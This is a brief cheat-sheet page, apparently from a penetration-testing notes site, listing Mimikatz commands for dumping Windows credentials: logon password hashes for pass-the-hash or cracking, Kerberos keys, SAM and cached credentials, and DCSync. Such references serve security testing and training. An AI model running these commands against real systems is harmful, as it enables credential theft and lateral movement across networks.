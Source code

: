 ```yaml
---
title: Mimikatz
parent: General Usage
layout: default
nav_order: 34
---
```


`token::elevate`\
Elevate the token first

`privilege::debug`\
Need Debug privilege for some of the actions

`sekurlsa::logonpasswords`\
NTLM to PTH or crack.

`sekurlsa::ekeys`\
Encryption key of logged on users using Kerberos. aes256_hmac is the one that you need.

`lsadump::sam`\
Local accounts only.

`lsadump::cache`\
DCC which can only be used to crack instead of logon.

`lsadump::dcsync`\
Domain admins only.
